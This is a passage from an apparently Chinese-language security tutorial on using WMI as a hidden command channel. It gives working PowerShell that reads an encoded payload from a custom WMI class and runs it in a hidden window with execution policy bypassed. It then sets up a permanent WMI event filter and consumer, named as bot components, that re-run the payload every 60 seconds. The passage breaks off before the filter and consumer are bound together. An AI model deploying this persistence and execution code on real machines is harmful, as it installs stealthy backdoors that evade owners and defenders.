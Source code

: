 ![这里写图片描述](http://drops.javaweb.org/uploads/images/5a869710f2ca67dd460e871d7bf1ee94aa7aca6b.jpg)

（2）查看加密的payload

```
([WmiClass] 'Win32_Command').Properties['EnCommand']

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/37752c692ded707c3425aaa5fabba975b371c90c.jpg)

（3）Client读取指令-解密-执行

```
#读取加密payload
$EncodedPayload=([WmiClass] 'Win32_Command').Properties['EnCommand'].Value
#PowerShell执行命令
$PowerShellPayload = "powershell -ep bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -enc $EncodedPayload"
Invoke-WmiMethod  -Class Win32_Process -Name Create -ArgumentList $PowerShellPayload
#显示解密指令
$bytes2  = [System.Convert]::FromBase64String($EncodedPayload);
$decoded = [System.Text.Encoding]::Unicode.GetString($bytes2); 
"decoded Payload:"
$decoded

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/208f13a3f2a396c3204b8e3ce2f37e1814368047.jpg)

server端执行

`([WmiClass] 'Win32_CommandTest').Properties['IP19216840208']`

验证是否成功

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/be39e8e1e5f35d6b54f35823aa68530533c387c3.jpg)

3、Client定时执行powershell命令
------------------------

```
#读取加密指令
$EncodedPayload=([WmiClass] 'Win32_Command').Properties['EnCommand'].Value
$filterName = 'BotFilter56'
$consumerName = 'BotConsumer56'
#创建一个__EventFilter，用于设定触发条件，每隔60s执行一次
$Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE
TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
$WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name=$filterName;EventNameSpace="root\cimv2";QueryLanguage="WQL";Query=$Query} -ErrorAction Stop

#创建一个CommandLineEventConsumer，用于设定执行的操作
$Arg =@{
        Name=$consumerName
            CommandLineTemplate="C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe  -NonInteractive  -enc $EncodedPayload"
}

$WMIEventConsumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments $Arg
#用于绑定filter和consumer
```